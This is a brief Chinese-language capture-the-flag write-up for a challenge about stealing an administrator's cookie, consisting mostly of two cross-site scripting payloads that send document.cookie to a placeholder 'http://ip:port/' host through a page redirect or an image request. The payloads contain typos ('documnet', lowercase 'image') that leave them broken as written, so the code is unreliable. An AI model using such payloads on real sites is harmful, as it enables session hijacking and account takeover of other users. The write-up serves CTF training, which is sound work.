

# 1.获取管理员cookie

启动环境，想办法，以管理员身份打开首页，就能获得flag值了呢



## write up

可以提交一下的payload:

```javascript
<script>
document.location='http://ip:port/'+documnet.cookie;
</script>


    
<script>
new image().src='http://ip:port/'+documnet.cookie;
</script>
```

